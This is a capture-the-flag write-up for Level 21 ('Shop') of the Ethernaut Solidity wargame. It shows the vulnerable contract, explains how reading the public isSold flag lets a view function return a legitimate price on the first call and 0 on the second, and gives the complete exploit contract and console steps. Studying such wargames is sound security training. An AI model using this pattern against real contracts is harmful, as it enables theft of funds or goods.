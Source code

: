 # Level 21: Shop

This is the level 21 of OpenZeppelin [Ethernaut](https://ethernaut.openzeppelin.com/) web3/solidity based game.

## Pre-requisites

- Solidity [view functions](https://docs.soliditylang.org/en/v0.8.11/contracts.html#view-functions)

## Hack

Given contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Buyer {
  function price() external view returns (uint);
}

contract Shop {
  uint public price = 100;
  bool public isSold;

  function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price() >= price && !isSold) {
      isSold = true;
      price = _buyer.price();
    }
  }
}
```

`player` has to set `price` to less than it's current value.

The new value of `price` is fetched by calling `price()` method of a `Buyer` contract. Note that there are two distinct `price()` calls - in the `if` statement check and while setting new value of `price`. A `Buyer` can cheat by returning a legit value in `price()` method of `Buyer` during the first invocation (during `if` check) and returning any less value, say 0, during second invocation (while setting `price`).

But, we can't track the number of `price()` invocation in `Buyer` contract because `price()` must be a `view` function (as per the interface) - can't write to storage! However, look closely new `price` in `buy()` is set _after_ `isSold` is set to `true`. We can read the public `isSold` variable and return from `price()` of `Buyer` contract accordingly. Bingo!

Write the malicious `Buyer` in Remix:
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface IShop {
    function buy() external;
    function isSold() external view returns (bool);
    function price() external view returns (uint);
}

contract Buyer {

    function price() external view returns (uint) {
        bool isSold = IShop(msg.sender).isSold();
        uint askedPrice = IShop(msg.sender).price();

        if (!isSold) {
            return askedPrice;
        }

        return 0;
    }

    function buyFromShop(address _shopAddr) public {
        IShop(_shopAddr).buy();
    }
}
```

Get the address of `Shop`:
```javascript
contract.address

// Output: <your-instance-address>
```

Now simply call `buyFromShop` of `Buyer` with `<your-instance-address>` as only param.

The `price` in `Shop` is now 0. Verify by:
```javascript
await contract.price().then(v => v.toString())

// Output: '0'
```

Free buy!


_Learned something awesome? Consider starring the [github repo](https://github.com/theNvN/ethernaut-openzeppelin-hacks)_ 😄

_and following me on twitter [here](https://twitter.com/heyNvN)_ 🙏
